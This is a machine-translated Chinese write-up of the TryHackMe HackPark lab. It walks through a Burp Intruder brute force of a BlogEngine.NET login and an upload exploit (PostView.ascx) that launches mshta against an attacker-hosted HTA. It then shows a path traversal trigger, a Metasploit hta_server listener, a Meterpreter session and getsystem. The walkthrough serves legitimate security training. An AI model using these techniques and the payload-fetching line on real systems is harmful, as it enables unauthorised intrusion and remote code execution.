# TryHackMe 报道:HackPark

> 原文：<https://infosecwriteups.com/tryhackme-writeup-hackpark-bd9c075c5262?source=collection_archive---------4----------------------->

hack park([“tryhackme”，2019](https://tryhackme.com/room/hackpark) )是一个 TryHackMe 教程室，用户“在网站登录九头蛇之前，识别并使用公共漏洞，然后提升你在这台 Windows 机器上的权限”(逐字引自[同上](https://tryhackme.com/room/hackpark))。这是一个有趣的房间(至少对我来说)。我花了将近一个月的时间来完成这个房间，因为我有“打破规则”的倾向，但我还是完成了。我将在这篇文章中讨论我对这个房间的体验。



基础图片:[《艾娃麦克斯》(2018)](https://www.youtube.com/watch?v=WXBHCQYxwr0)

# 程序

在我开始之前，我必须定义这个房间的目标。在这种情况下，利用目标系统上的漏洞获取权限较低的用户帐户，然后利用权限提升漏洞获取系统级权限。然后我必须转储`user.txt`和`root.txt`标志。

因此，我点击了第一个任务右上角的绿色“启动机器”按钮，并开始将目标机器的动态 IP 地址添加到我的攻击箱的`/etc/hosts`配置文件中。

## 侦察

这个房间运行着一个网络服务器，所以我运行了 Burp Suite ( [PortSwigger，n.d.-a](https://portswigger.net/burp/communitydownload) )并访问了目标网站的内置浏览器。以下(图 1)是主页中出现的内容:



**图 1**

作为被动侦察工作的一部分，竞争者要找出谁是主页上的小丑样人物(图 1a)。通过逆向图像搜索和上下文线索，我能够算出小丑的名字。

之后，我寻找一种方法来利用面向 web 应用程序来访问管理员面板。主页右上角的三条横条(图 1b)似乎是某种网站导航工具栏的按钮。单击它会出现以下菜单窗格(图 2):



**图 2**

我对进入登录页面很感兴趣，这样我就可以尝试利用某种文件上传漏洞来利用系统，短期目标是建立一个 meter preter([Metasploit Unleashed，n.d.](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) )会话。点击“登录”(图 2a)，出现以下页面(图 3):



**图 3**

为这个网站提供动力的内容管理系统叫做[BlogEngine.NET](https://blogengine.io/)，在我继续开发它之前，我想我应该先试着登录这个东西。

登录表单接受用户名(图 3a)和密码(图 3b)。我用`dna`作为用户名，`deniers`作为密码，点击“登录”(图 3c)，得到如下页面(图 4):



**图 4**

正如我所料，登录会失败(图 4a)。Burp Suite 记录了这些请求和响应，现在我可以使用它们对面板进行暴力攻击来获取凭证。切换到 Burp Suite 主窗口(图 5)，我计算出代表失败登录的 **POST** 请求(图 5a)，然后将其转发给 Burp 的*入侵者*功能(图 5b):



**图 5**

我不想讨论关于配置 Burp Suite 来暴力破解 web 表单的细节，因为这将花费比所需时间更长的时间，但我确实想关注一下 *POST* 请求中的这个特定字段:

```
[...] &ctl00%24MainContent%24LoginUser%24UserName=**§dna§**&ctl00%24MainContent%24LoginUser%24Password=**§deniers§**& [...]
```

我将使用*集束炸弹* ( [PortSwigger，n.d.-b](https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types) )攻击强力攻击 web 应用程序，其中 Burp Suite 将尝试使用各种用户名和密码组合登录。我建议阅读手册([同上。](https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types))来了解更多关于设置这种攻击的信息。

但是关于这个特殊的 *POST* 字段，我可以配置 Burp Suite 来攻击`&ctl00%24MainContent%24LoginUser%24UserName=`和`ctl00%24MainContent%24LoginUser%24Password=`参数，它们分别代表用户名和密码字段。然后，我需要配置有效负载，以匹配一系列常用用户名和常用密码，然后发起攻击。下面的窗口(图 6)显示了强力的作用:



**图 6**

Burp Suite 尝试使用不同的密码和不同的用户名登录。结果选项卡(图 6a)显示了 Burp Suite 已经尝试的内容。`Payload1`列(图 6b)显示测试的用户名，`Payload2`列(图 6c)显示测试的密码，`Status`列显示尝试有效负载后的 HTTP 响应代码，`Length`列显示响应的大小(我想是以字节为单位？).

`Status`和`Length`列很重要，因为我在寻找响应中的异常。不同的 HTTP 响应代码(如 3xx 或 4xx)或更大或更小的响应可能表示 Burp Suite 找到了成功的用户名和密码组合。我对此的推理是，不正确的用户名和密码组合更有可能产生类似的“登录失败”响应，而唯一的用户名和密码将产生新的“登录成功”响应大小或 HTTP 响应代码。

这个过程持续了一段时间，最终，我得到了以下候选用户名和密码组合:用户名`admin`和密码`1qaz2wsx`。我试图登录应用程序 *a la* 图 4，出现了 BlogEngine。NET 的管理员仪表板(图 7):



**图 7**

## 初始访问

通过访问目标机器的 BlogEngine.NET 仪表板，我现在可以开始考虑利用面板的方法了。我认为首先弄清楚目标机器运行的是哪个版本的 BlogEngine 会很有用。我点击了左边工具栏上的“关于”按钮(图 8c)，版本被列为`3.3.6.0`。



**图 8**

我对博客引擎`3.3.6.0`中存在何种漏洞进行了粗略的研究，这让我注意到了由 [Bishop (2019)](https://seclists.org/fulldisclosure/2019/Jun/26) 撰写的一份报告，该报告展示了影响博客引擎`3.3.6.0`和之前版本的*本地文件包含*和*远程代码执行*缺陷。

此外，[科布(2019)](https://www.exploit-db.com/exploits/46353) 进行了实际利用。最初的漏洞利用打开了攻击箱的反向外壳，但是我认为我应该“打破规则”一点，修改漏洞利用来做一些更有趣的事情(并且对我自己来说更方便)。

我修改了最初的漏洞，改为启动 HTML 应用程序驱动的有效载荷(见 [Microsoft Docs，2013](https://docs.microsoft.com/en-us/previous-versions/ms536495(v=vs.85)) )，可以配置为自动启动反向 Meterpreter 外壳。我最初修改了这个漏洞，以启动一个`web_delivery`工具来传递一个反向 shell，但是当我设置的监听器获得一个连接时，由于某种原因没有产生一个 shell。

因此，我尝试了许多其他方法来启动代码，并决定休息一下。直到我做了另一次 TryHackMe room ( [Aleksey，2022](/tryhackme-writeup-atlas-c3dff235d109) )后，我才意识到`web_delivery`有效载荷总体上是失败的，所以我必须想出另一种方法来交付 Meterpreter 有效载荷。我使用了一种由 [Chandel (2019)](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/) 描述的技术，该技术使用 HTA 作为传递机制。以下是我对 Cobb exploit 的实现:

我对科布的利用的看法

而不是用。NET 框架的套接字编程库，我版本的 Cobb exploit 将改为通过启动进程(Ln)来访问远程 HTML 应用程序。25, 30).具体来说，它将通过`mshta.exe`可执行文件(Ln。26，27)并且不创建窗口(Ln。29)希望“保持隐蔽”

**注意**我**没有**测试过这种初级的隐形，所以在现实生活中它可能不合适或者不“有效”。尽管如此，在这个房间里它确实对我有用，所以我就跟着它走了。

然后，我通过将漏洞上传到*blogenine CMS*上来利用这个漏洞。需要上传文件名为`PostView.ascx`的文件，以便触发攻击。所以我用那个名字复制了一份。

```
**┌──(dna@deniers)-[~/hackpark]
└─$ cp bexploit.cs PostView.ascx**

**┌──(dna@deniers)-[~/hackpark]
└─$**
```

然后，我开始启动 Metasploit 来处理传入的 Meterpreter 反向 shell:

```
**┌──(dna@deniers)-[~/hackpark]
└─$ sudo msfconsole                    
[sudo] password for dna: *inserts password*****msf6 > use exploit/windows/misc/hta_server**
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp**msf6 exploit(windows/misc/hta_server) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(windows/misc/hta_server) > exploit**
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.[*] Started reverse TCP handler on <attackbox ip>:4444 
[*] Using URL: http://<attackbox ip>:8080/dropper.hta
[*] Server started.
**msf6 exploit(windows/misc/hta_server) >**
```

然后，我编辑了带有参数的`PostView.ascx`文件，该参数指向我的 AttackBox (Ln)上的 Meterpreter HTML 应用程序。27):

```
[... snip ...]
payload.StartInfo.Arguments = **"http://<attackbox ip>:8080/dropper.hta"**; // url to HTA with payload
[... snip ...]
```

我通过首先进入内容部分(图 8a)将漏洞上传到 CMS 中，这将给我一个在网站上发表的文章列表。然后我转到“欢迎来到 HackPark”这篇文章(图 8b)，它给了我以下网页(图 9):



**图 9**

我需要把`PostView.ascx`文件上传到服务器上。这是通过点击带有文件夹图标的按钮(图 9a)实现的，这将打开以下对话框(图 10):



**图 10**

我点击“上传”按钮(图 10a)，另一个对话框出现，我必须选择要上传的`PostView.ascx`文件，我这样做了，并得到以下结果，通知我我成功了(图 11a/b):



**图 11**

然后，我通过从我的攻击箱的浏览器访问以下 URL: `http://hackpark.thm/?theme=../../App_Data/files`触发了该漏洞，并得到以下页面:



**图 12**

之后，来自目标机器的 Meterpreter 会话出现在我面前:

```
**msf6 exploit(windows/misc/hta_server) >** [*] hackpark.thm    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to hackpark.thm
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> hackpark.thm:49423 ) at [redacted] -0400**msf6 exploit(windows/misc/hta_server) >**
```

## 后剥削

在利用目标机器并获得那个 Meterpreter 反向 shell 后，我开始与它进行交互，并自动用`getsystem`获得系统权限:

```
**msf6 exploit(windows/misc/hta_server) > sessions -i 1**
[*] Starting interaction with 1...**meterpreter > getsystem**
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
**meterpreter >**
```

**注意**我应该利用一个服务来获得系统特权，但这正是这个房间所期待的，就像一部好的喜剧，我喜欢以这样一种方式来挑战我的读者的“第二次猜测”😉

现在，我可以继续从系统中转储用户和根标志:

```
**meterpreter > search -f user.txt**
Found 2 results...
==================Path  Size (bytes)  Modified (UTC)
----  ------------  --------------
c:\Documents and Settings\jeff\Desktop\user.txt  32            [redacted] -0400
c:\Users\jeff\Desktop\user.txt                   32            [redacted] -0400**meterpreter > cat C:\\Users\\jeff\\Desktop\\user.txt**
[redacted]**meterpreter > search -f root.txt**
Found 2 results...
==================Path  Size (bytes)  Modified (UTC)
----  ------------  --------------
c:\Documents and Settings\Administrator\Desktop\root.txt  32            [redacted] -0400
c:\Users\Administrator\Desktop\root.txt                   32            [redacted] -0400**meterpreter > cat C:\\Users\\Administrator\\Desktop\\root.txt**
[redacted]**meterpreter >**
```

阿洛拉。

# 摘要

这是一个有趣的房间。像往常一样，我违背了指令，决定使用打嗝套件而不是`hydra`(部分原因是我不知道如何让`hydra`攻击 BlogEngine。NET 的登录表单)，重写要利用的漏洞的有效载荷，并决定通过使用`getsystem`而不是手动利用要利用的易受攻击的服务来结束。

## 外卖食品

除了 [Bishop (2019)](https://seclists.org/fulldisclosure/2019/Jun/26) 发现的漏洞和更多的理由相信打破规则是一件好事之外，这篇文章并没有“带走”太多东西；-)

## 插头

Mira Lazine ( [Twitter](https://twitter.com/MiraLazine) 、 [Medium](https://medium.com/@MiraLazine) )和其他弱势群体需要您的帮助。如果可以，在下面的链接上给自己捐款:

*   米拉现金。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)
*   现金伊西。app:[https://cash.app/$izzykilla](https://cash.app/$izzykilla)
*   迪. w .现金交易。app:【https://cash.app/$pitfirego 
*   迪·温默:[https://account.venmo.com/u/Spitfirego](https://account.venmo.com/u/Spitfirego)
*   郭台铭谈现金。app:[https://cash.app/$octgayvian](https://cash.app/$octgayvian)

他们都需要经济援助，所以如果你能给他们几美元(或传播消息)，我们将不胜感激😍

# 参考

阿列克谢(2022)。TryHackMe 报道:Atlas。信息安全报道。2022 年 5 月 18 日检索自:[https://infosecwriteups . com/tryhackme-writeup-atlas-c3dff 235d 109](/tryhackme-writeup-atlas-c3dff235d109)

阿列克谢(未标明)。*我的中间代码片段的要点*。GitHub Gists。2022 年 5 月 13 日检索自:[https://gist . github . com/Alekseyyy/a 621 a 72 C2 cf 9 b 6487 cf 8313 CCC 2908 EB # file-CTF-2022-tryhackme-hack park-bex ploit-cs](https://gist.github.com/Alekseyyy/a621a72c2cf9b6487cf8313ccc2908eb#file-ctf-2022-tryhackme-hackpark-bexploit-cs)

《艾娃麦克斯》(2018)。*甜美却神经病【官方音乐视频】*。YouTube。2022 年 5 月 24 日检索自:[https://youtu.be/WXBHCQYxwr0](https://youtu.be/WXBHCQYxwr0)

毕晓普，A. (2019)。*BlogEngine.NET 目录遍历+ RCE* 。秘书。2022 年 5 月 9 日检索自:[https://seclists.org/fulldisclosure/2019/Jun/26](https://seclists.org/fulldisclosure/2019/Jun/26)

布洛根金。净(未标明日期)。BlogEngine.NET |免费博客平台。2022 年 5 月 7 日检索自:[https://blogengine.io/](https://blogengine.io/)

Chandel，R. (2019)。*通过 Windows 一行程序获得反向外壳*。黑客文章。2022 年 4 月 24 日检索自:[https://www . hacking articles . in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

科布博士(2019)。*BlogEngine.NET<= 3 . 3 . 6 目录遍历 RCE* 。利用数据库。2022 年 4 月 25 日检索自:[https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

Metasploit Unleashed(未标明)。关于 Metasploit Meterpreter 。进攻安全。2022 年 5 月 9 日检索自:[https://www . offensive-security . com/metasploit-unleashed/about-meter preter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

